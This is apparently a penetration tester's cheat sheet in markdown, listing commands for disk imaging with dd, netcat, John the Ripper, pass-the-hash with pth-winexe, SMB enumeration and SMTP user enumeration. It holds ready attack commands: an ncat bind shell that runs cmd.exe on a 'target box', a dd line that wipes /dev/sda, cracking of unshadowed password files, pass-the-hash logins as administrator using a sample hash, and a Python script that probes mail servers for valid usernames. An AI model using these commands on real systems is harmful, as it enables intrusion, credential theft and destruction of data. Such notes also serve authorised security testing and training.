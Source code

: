 ## DD
To Copy an Iso file with DD

First find disk size
   
```console
isoinfo -d -i /dev/cdrom
CD-ROM is in ISO 9660 format
System id:
Volume id: ____
Volume set id:
Publisher id:
Data preparer id:
Application id: NERO - BURNING ROM
Copyright File id:
Abstract File id:
Bibliographic File id:
Volume set size is: 1
Volume set sequence number is: 1
Logical block size is: 2048
Volume size is: 33034   
Joliet with UCS level 3 found   
NO Rock Ridge present   
```
Copying the contents

`dd if=/dev/cdrom of=/root/Desktop/folder/file.iso bs=2048 count=33034 status=progress`

Delete contents

`dd if=/dev/zero of=/dev/sda status=progress`

## NC

Good commands

### Bind SSL shell  
on target box

`ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl`

on attacker

`ncat -v 10.0.0.22 4444 --ssl`


Random

nc -4 -u -v -l -p 8001 -k | nc -4 -u -n -v -s 10.10.13.7 225.1.1.13 3113


## John

`john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump`

`unshadow passwd-file.txt shadow-file.txt > unshadowed.txt`

`john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt`



## pth-winexe

`export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896`

`pth-winexe -U administrator% //<IP> cmd`

or

`pth-winexe -U administrator%aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896 //<IP> cmd`


tool to use when smb is available 

### Enum4linux

`enum4linux -a <ip>`

### Nbtscan

`nbtscan -r <ip>`

others

smbmap

smbclient

rpcclient

net

nmblookup

nmap scripts

## SMTP
VRFY user

`nc -nv 10.10.10.10 25`

`VRFY root`

Python  tool

```
#!/usr/bin/python
import socket
import sys
if len(sys.argv) != 2:
  print "Usage: vrfy.py <username>"
  sys.exit(0)
# Create a Socket
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Connect to the Server
connect=s.connect(('10.11.1.215',25))
# Receive the banner
banner=s.recv(1024)
print banner
# VRFY a user
s.send('VRFY ' + sys.argv[1] + '\r\n')
result=s.recv(1024)
print result
# Close the socket
s.close()
```

## SNMP
snmpwalk



snmp-check